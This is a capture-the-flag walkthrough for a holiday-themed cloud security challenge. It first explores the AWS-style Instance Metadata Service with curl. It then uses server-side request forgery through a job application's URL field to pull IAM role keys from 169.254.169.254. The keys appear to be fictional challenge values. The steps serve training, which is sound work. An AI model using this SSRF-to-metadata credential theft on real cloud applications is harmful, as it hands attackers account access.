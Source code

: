 # 10 Now Hiring

_Difficulty:_  :evergreen_tree: :evergreen_tree: :evergreen_tree:

> What is the secret access key for the Jack Frost Tower job applications
> server? Brave the perils of Jack's bathroom to get hints from Noxious _O. D'or_.

[Jack Frost Tower App](https://apply.jackfrosttower.com/)

Noxious O. D'or

> Hey, this is the executive restroom. Wasn't that door closed? I’m Noxious
> O’Dor. And I’ve gotta say, I think that Jack Frost is just messed up. I mean,
> I'm no expert, but his effort to "win" against Santa by going bigger and
> bolder seems bad. You know, I’m having some trouble with this IMDS
> exploration. I’m hoping you can give me some help in solving it. If you do,
> I’ll be happy to trade you for some hints on SSRF! I’ve been studying up on
> that and have some good ideas on how to attack it!

---

## Challenge: IMDS exploration

```text
🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your
🎄🎄🎄 cloud asset skills, interacting with the IMDS using curl.
🎄🎄🎄 If you get stuck, run 'hint' for assitance.
```

> The Instance Metadata Service (IMDS) is a virtual server for cloud assets at
> the IP address 169.254.169.254. Send a couple ping packets to the server.

```sh
$ ping 169.254.169.254
PING 169.254.169.254 (169.254.169.254) 56(84) bytes of data.
64 bytes from 169.254.169.254: icmp_seq=1 ttl=64 time=0.022 ms
```

> IMDS provides information about currently running virtual machine instances.
> You can use it to manage and configure cloud nodes. IMDS is used by all major
> cloud providers.
> Different providers will have different formats for IMDS data. We're using an
> AWS-compatible IMDS server that returns 'latest' as the default response.
> Access the 'latest' endpoint. Run `curl http://169.254.169.254/latest`

```sh
$ curl http://169.254.169.254/latest
dynamic
meta-data
```

> IMDS returns two new endpoints: dynamic and meta-data. Lets start with the
> dynamic endpoint, which provides information about the instance itself. Repeat
> the request to access the dynamic endpoint: `curl http://169.254.169.254/latest/dynamic`.

```sh
$ curl http://169.254.169.254/latest/dynamic
fws/instance-monitoring
instance-identity/document
instance-identity/pkcs7
instance-identity/signature
```

> The instance identity document can be used by developers to understand the
> instance details. Repeat the request, this time requesting the
> instance-identity/document resource: `curl
> http://169.254.169.254/latest/dynamic/instance-identity/document`.

```json
{
        "accountId": "PCRVQVHN4S0L4V2TE",
        "imageId": "ami-0b69ea66ff7391e80",
        "availabilityZone": "np-north-1f",
        "ramdiskId": null,
        "kernelId": null,
        "devpayProductCodes": null,
        "marketplaceProductCodes": null,
        "version": "2017-09-30",
        "privateIp": "10.0.7.10",
        "billingProducts": null,
        "instanceId": "i-1234567890abcdef0",
        "pendingTime": "2021-12-01T07:02:24Z",
        "architecture": "x86_64",
        "instanceType": "m4.xlarge",
        "region": "np-north-1"
}
```

> Much of the data retrieved from IMDS will be returned in JavaScript Object
> Notation (JSON) format. Piping the output to 'jq' will make the content easier
> to read. Re-run the previous command, sending the output to JQ: `curl
> http://169.254.169.254/latest/dynamic/instance-identity/document | jq`
> Here we see several details about the instance when it was launched.
> Developers can use this information to optimize applications based on the
> instance launch parameters.
>
> In addition to dynamic parameters set at launch, IMDS offers metadata about
> the instance as well. Examine the metadata elements available: `curl
> http://169.254.169.254/latest/meta-data`
>
> By accessing the metadata elements, a developer can interrogate information
> about the system. Take a look at the public-hostname element: `curl
> http://169.254.169.254/latest/meta-data/public-hostname`

```sh
$ curl http://169.254.169.254/latest/meta-data/public-hostname
ec2-192-0-2-54.compute-1.amazonaws.compute-1
```

> There is a whole lot of information that can be retrieved from the IMDS
> server. Even AWS Identity and Access Management (IAM) credentials! Request the
> endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials` to
> see the instance IAM role.

```sh
$ curl http://169.254.169.254/latest/meta-data/iam/security-credentials
elfu-deploy-role
```

> Once you know the role name, you can request the AWS keys associated with the
> role. Request the endpoint
> `http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-
> role` to get the instance AWS keys

```json
{
        "Code": "Success",
        "LastUpdated": "2021-12-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-12-02T18:50:40Z"
}
```

> So far, we've been interacting with the IMDS server using IMDSv1, which does
> not require authentication. Optionally, AWS users can turn on IMDSv2 that
> requires authentication. This is more secure, but not on by default.
>
> For IMDSv2 access, you must request a token from the IMDS server using the
> X-aws-ec2-metadata-token-ttl-seconds header to indicate how long you want the
> token to be used for (between 1 and 21,600 secods). Examine the contents of
> the 'gettoken.sh' script in the current directory using 'cat'.

```sh
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" \
          -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
```

> With the IMDS token, you can make an IMDSv2 request by adding the
> X-aws-ec2-metadata-token header to the curl request. Access the metadata
> region information in an IMDSv2 request: 'curl -H "X-aws-ec2-metadata-token:
> $TOKEN" `http://169.254.169.254/latest/meta-data/placement/region`

---

_Noxious O. D'or_:

> Phew! That is something extra! Oh, and you solved the challenge too? Great!
> Cloud assets are interesting targets for attackers. Did you know they
> automatically get IMDS access? I'm very concerned about the combination of
> SSRF and IMDS access. Did you know it's possible to harvest cloud keys through
> SSRF and IMDS attacks? Dr. Petabyte told us, "anytime you see URL as an input,
> test for SSRF." With an SSRF attack, we can make the server request a URL.
> This can reveal valuable data! The AWS documentation for IMDS is interesting
> reading.

[AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)

Value submitted for form field "URL to your public NLBI report":
<http://169.254.169.254>

![Form result](img/frosttower01.png)

Taking the URL of the not displayed image:

```shell
$ curl https://apply.jackfrosttower.com/images/ABC.jpg
latest
```

Bingo !

Next using `http://169.254.169.254/latest/meta-data/iam/security-credentials`
and curl'ing the image URL again:

```sh
$ curl https://apply.jackfrosttower.com/images/ABC.jpg
jf-deploy-role
```

Next, querying for the credentials of the 'jf-deploy-role'
with
`http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role`
and curl'ing the image URL again yields:

```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

